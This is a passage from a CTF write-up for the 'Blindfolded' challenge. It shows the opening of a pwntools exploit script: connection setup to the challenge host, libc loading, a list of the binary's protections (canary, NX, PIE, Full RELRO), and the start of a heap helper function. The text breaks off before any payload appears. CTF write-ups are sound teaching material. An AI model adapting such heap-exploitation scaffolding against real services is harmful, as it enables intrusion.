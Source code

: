 With all of that said we can now finally go over the [exploit](Blindfolded/Blindfold_ex.py).\
You can skip the first block if you want, since it is mainly pwntools setup code and some helper functions defined by me.

``` python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challs.xmas.htsp.ro --port 12004 a.out
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('a.out')
libc = ELF("libc-2.27.so")
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challs.xmas.htsp.ro'
port = int(args.PORT or 12004)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


# Helper functions
def do_malloc(idx, sz, text, wait=True):
    io.sendline("1")
```
